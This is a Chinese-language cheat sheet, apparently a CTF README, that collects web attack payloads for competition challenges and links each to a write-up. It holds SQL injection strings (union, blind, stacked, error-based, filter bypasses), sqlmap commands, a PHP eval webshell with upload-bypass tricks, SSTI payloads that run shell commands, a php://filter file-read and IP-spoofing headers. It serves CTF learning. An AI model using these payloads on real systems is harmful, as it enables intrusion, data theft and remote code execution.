


# 各类题型焚诀

## Web

### SQL 注入

注释可以用 `#`/`--`

1. 万能密码（字符型注入）：使用 `'` 和 `"` 有一个会报错
   1. `admin' OR 1=1#`
   2. `admin'#`
   3. `1' OR 1=1#`
2. 数字型注入：无引号包裹
   1. `1`/`0`/`2`...，如果 0 无回显其他都有则包含 `||` 结构
      - [Example 01: SUCTF 2019 EasySQL](./BUUCTF/Web/[SUCTF%202019]EasySQL)
3. 布尔盲注：存在注入点但不会回显注入语句执行结果
   1. `and length(database())>11 --+` 判断数据库名长度
   2. `and (ascii(substr(database(),1,1)))>100 --+` 判断数据库名第一个字母
   3. `and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))>144 --+` 判断表名第一个字母
   4. `and (ascii(substr((select column_name from information_schema.columns where table.schema=database() and table_name=’数据库表名’ limit 0,1)1,1)>105 --+` 判断字段名第一个字母
   5. `and (ascii(substr(( select password from users limit 0,1),1,1)))=68--+` 猜测 password 字段第一个字母
4. 时间盲注：
   1. `id=1' and If(length(database()) > 1,1,sleep(5))--+` 判断数据库名长度
   2. `id=1' and If(ascii(substr(database(),1,1))=97,sleep(5),1)--+` 判断数据库名第一个字母
5. Union 注入：
   1. `1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()#` 查看表
   2. `1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='数据库表名'#`  查看字段名
   3. `1' union select 1,database(),group_concat(各字段) from 数据库表名#` 查看字段值
   4. [Example 01: 极客大挑战 2019 LoveSQL](./BUUCTF/Web/[极客大挑战%202019]LoveSQL)
   5. [Example 02: 网鼎杯 2018 Fakebook](BUUCTF/Web/[网鼎杯 2018]Fakebook) 
6. 堆叠注入：
   1. `1’; show databases;#` 查看数据库
   2. `1'; show tables;#` 查看表
   3. `1'; show columns from tablename;#` 查看所有字段
   4. [Example 01: 强网杯 2019 随便注](./BUUCTF/Web/[强网杯%202019]随便注)
   5. [Example 02: GYCTF 2020 Blacklist](./BUUCTF/Web/[GYCTF2020]Blacklist)
7. 发现有字段被过滤（OR、UNION、SELECT、FROM...）变为空可以尝试双写绕过（OORR、UNUNIONION、...）
   - [Example 01: 极客大挑战 2019 BabySQL](./BUUCTF/Web/[极客大挑战 2019]BabySQL/)
8. Sqlmap：
   1. `python sqlmap.py -u "url" --dbs` 查看数据库名
   1. `python sqlmap.py -u "url" -D database_name --tables` 查看表名
9. MD5 注入：`select * from 'admin' where password=md5($pass,true)`，输入 `ffifdyop`
   - [Example 01: BJDCTF2020 Easy MD5](./BUUCTF/Web/[BJDCTF2020]Easy MD5/)
10. 各种过滤绕过：
    - 过滤等号：可以用 like 替代
    - 过滤空格：可以用 `()` 替代，万能密码能改写为 `1'or((1)like(1))#`，或者直接用 `/**/` 来代替空格
    - 过滤 or：用 ^ 替代
    - 过滤 select：
      1. 用 prepare，并将 select 语句转为十六进制/使用 concat
      2. 用 alter 修改表名和列名
      3. [Example 01: 强网杯 2019 随便注](./BUUCTF/Web/[强网杯%202019]随便注)
    - 过滤 select+prepare+alter：用 Handler
      - [Example 01: GYCTF 2020 Blacklist](./BUUCTF/Web/[GYCTF2020]Blacklist)
11. SQL 报错注入：使用 `updatexml` 或 `extractvalue` 函数
    1. 获取数据库：`1'or(updatexml(1,concat(0x7e,database(),0x7e),1))#`/`1'^extractvalue(1,concat(0x7e,(select(database()))))#`
    2. 查询表名：`1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))#`/`1'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database()))))#`
    3. 查询字段：`1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('数据库表名')),0x7e),1))#`/`1'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('数据库表名'))))#`
    4. 查询字段值：`1'or(updatexml(1,concat(0x7e,(select(group_concat(字段1,'~',字段2))from(数据库表名)),0x7e),1))#`/`1'^extractvalue(1,concat(0x7e,(select(group_concat(字段))from(数据库表名))))#`
    5. [Example 01: 极客大挑战 2019 HardSQL](./BUUCTF/Web/[极客大挑战 2019]HardSQL)
12. PDO 预编译：相关文章 [A Novel Technique for SQL Injection in PDO’s Prepared Statements](https://slcyber.io/research-center/a-novel-technique-for-sql-injection-in-pdos-prepared-statements/)
    - [Example 01: 2025 清华青训营 SQL](https://fushuling.com/index.php/2026/01/25/%E7%AC%AC%E4%B8%89%E5%B1%8A%E4%BF%A1%E6%81%AF%E5%AE%89%E5%85%A8%E9%9D%92%E8%AE%AD%E8%90%A5%E4%B8%AA%E4%BA%BA%E8%80%83%E6%A0%B8%E8%B5%9B-web/) 


***

### 文件上传

1. 图片字节检查：添加 `\xFF\xD8\FF` 头解决，抓包修改后缀名为 php
   - [Example 01: MoeCTF 2025 第十三章 通幽关·灵纹诡影](2025.9%20MoeCTF/Web/Web-13)

2. 限制 php 后缀名：
   1. 上传 .htaccess 文件 `AddType application/x-httpd-php .txt`，解析 txt 为 php
      - [Example 01: MoeCTF 2025 第十四章 御神关·补天玉碑](2025.9%20MoeCTF/Web/Web-14)
      - [Example 02: MRCTF 2020 你传你🐎呢](./BUUCTF/Web/[MRCTF2020]你传你🐎呢/)
      - [Example 03: GXYCTF 2019 BabyUpload](./BUUCTF/Web/[GXYCTF2019]BabyUpload)
   2. 在已知上传目录下有至少一个 php 文件的时候，上传 .user.ini 文件 `auto_prepend_file=one_word.jpg`，在每一个 php 文件后面附加上一个文件，蚁剑连目录下的 php 文件即可
      - [Example 01: SUCTF 2019 CheckIn](./BUUCTF/Web/[SUCTF 2019]CheckIn)

3. 内容检查：
   1. 过滤 php：一句话木马 `<?@eval($_REQUEST['x']);?>`
      - [Example 01: DASCTF 2025 Upload1](2025.11%20省赛/Web-1)
   2. 过滤 <?：转为 phtml
      - [Example 01: 极客大挑战 2019 Upload](BUUCTF/Web/[极客大挑战 2019]Upload)

***

### SSTI 注入

1. Flask 注入方式：

   - `{{ config.__class__.__init__.__globals__['os'].popen('env').read() }}`

   - `{{ lipsum.__globals__['os'].popen('env').read() }}`

   - `{{ request.application.__globals__["__builtins__"]["__import__"]("os").popen("env").read() }}`

   - ``

   - `{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('env').read()") }}`

   - `{{self.__init__.__globals__.__builtins__.open('/flag').read()}}`
   - `{{url_for.__globals__['current_app'].config}}`
   - [Example 01: MoeCTF 2025 第二十章 幽冥血海·幻语心魔](./2025.9 MoeCTF/Web/Web-20/)
   -  [Example 02: WesternCTF 2018 shrine](BUUCTF/Web/[WesternCTF2018]shrine) 
   - 绕过`["__", "global", "{{", "}}"]`过滤方式：
     - `{{` 和 `}}` 可以用 `` 代替
     -  `__` 和 `global` 可以通过拼接绕过
     - e.g. ``
     - [Example 01: MoeCTF 2025 第二十一章 往生漩涡·言灵死局](./2025.9 MoeCTF/Web/Web-21/)
2. Tornado 注入方式：

   - `{{handler.settings}}` 
   - [Example 01: 护网杯 2018 easy_tornado](./BUUCTF/Web/[护网杯 2018]easy_tornado/)
3. Smarty 注入方式：和 PHP 类似，直接用 `{{system('cat /flag')}}`
   -  [Example 01: BJDCTF 2020 The mystery of ip](BUUCTF/Web/[BJDCTF2020]The mystery of ip) 

各大模板总览：





***

### 其他

1. PHP 反序列化绕过 Wakeup：属性数量大于实际给的数量即可
   - [Example 01: 极客大挑战 2019 PHP](./BUUCTF/Web/[极客大挑战 2019]PHP/)

2. PHP 弱比较：`404aabb == 404`
   - [Example 01: 极客大挑战 2019 BuyFlag](./BUUCTF/Web/[极客大挑战 2019]BuyFlag/)
   - [Example 02: MRCTF 2020 Ez_bypass](./BUUCTF/Web/[MRCTF2020]Ez_bypass/)
   - [Example 03: 网鼎杯 2020 青龙组 AreUSerialz](./BUUCTF/Web/[网鼎杯 2020 青龙组]AreUSerialz)
   
3. MD5 碰撞：弱比较 `240610708` 和 `QNKCDZO`（两者 MD5 均以 0e 开头被认为科学计数法，均为 0）；强比较构造数组（MD5 均为 Null）；完全一致 `4dc968ff0ee35c209572d4777b721587d36fa7b21bdc56b74a3dc0783e7b9518afbfa200a8284bf36e8e4b55b35f427593d849676da0d1555d8360fb5f07fea2` 和 `4dc968ff0ee35c209572d4777b721587d36fa7b21bdc56b74a3dc0783e7b9518afbfa202a8284bf36e8e4b55b35f427593d849676da0d1d55d8360fb5f07fea2`；要想 MD5 值等于自己，使用 `0e215962017`
   - [Example 01: BJDCTF2020 Easy MD5](./BUUCTF/Web/[BJDCTF2020]Easy MD5/)
   - [Example 02: MoeCTF 2025 第七章 灵蛛探穴与阴阳双生符](./2025.9 MoeCTF/Web/Web-7/)
   - [Example 03: MRCTF 2020 Ez_bypass](./BUUCTF/Web/[MRCTF2020]Ez_bypass/)
   -  [Example 04: SHCTF 2026 hash1](2026.2 SHCTF/Crypto/hash1) 
4.  伪造一个文件用 data 伪协议 `data://text/plain,文件内容`
   - [Example 01: MoeCTF 2025 第十六章 昆仑星途](./2025.9 MoeCTF/Web/Web-16/)
   - [Example 02: ZJCTF 2019 NiZhuanSiWei](./BUUCTF/Web/[ZJCTF 2019]NiZhuanSiWei) 

5. 有文件读取但访问 flag.php 没有东西可以尝试 base64 加密 ：`?file=php://filter/read=convert.base64-encode/resource=flag.php`

   -  [Example 01: ACTF2020 新生赛 Include](BUUCTF/Web/[ACTF2020 新生赛]Include) 

   -   [Example 02: 极客大挑战 2019 Secret File](BUUCTF/Web/[极客大挑战 2019]Secret File) 

6. 题目有字眼”本地“，尝试 Header：

```
X-Forwarded-For:127.0.0.1
X-Forwarded:127.0.0.1
Forwarded-For:127.0.0.1
Forwarded:127.0.0.1
X-Forwarded-Host:127.0.0.1
X-remote-IP:127.0.0.1
X-remote-addr:127.0.0.1
True-Client-IP:127.0.0.1
X-Client-IP:127.0.0.1
Client-IP:127.0.0.1
X-Real-IP:127.0.0.1
Ali-CDN-Real-IP:127.0.0.1
Cdn-Src-Ip:127.0.0.1
Cdn-Real-Ip:127.0.0.1
CF-Connecting-IP:127.0.0.1
X-Cluster-Client-IP:127.0.0.1
WL-Proxy-Client-IP:127.0.0.1
Proxy-Client-IP:127.0.0.1
Fastly-Client-Ip:127.0.0.1
True-Client-Ip:127.0.0.1
Host:127.0.0.1
```

7. `find / -name 'flag*'` 能查找所有 flag 开头的文件
   -  [Example 01: 网鼎杯 2020 朱雀组 phpweb](BUUCTF/Web/[网鼎杯 2020 朱雀组]phpweb) 

8. 没什么思路可以试试看访问 robots.txt 或者 dirsearch，dirsearch 全 429 可以加上 -t 5 参数减少线程数
   -  [Example 01: 网鼎杯 2018 Fakebook](BUUCTF/Web/[网鼎杯 2018]Fakebook) 
   -  [Example 02: MoeCTF 2025 第七章 灵蛛探穴与阴阳双生符](2025.9 MoeCTF/Web/Web-7) 
   -  [Example 03: 极客大挑战 2019 PHP](BUUCTF/Web/[极客大挑战 2019]PHP) 
   -  [Example 04: GXYCTF 2019 禁止套娃](BUUCTF/Web/[GXYCTF2019]禁止套娃) 
   -  [Example 05: GWCTF 2019 我有一个数据库](BUUCTF/Web/[GWCTF 2019]我有一个数据库) 
   -  [Example 06: BJDCTF 2020 Mark loves cat](BUUCTF/Web/[BJDCTF2020]Mark loves cat) 

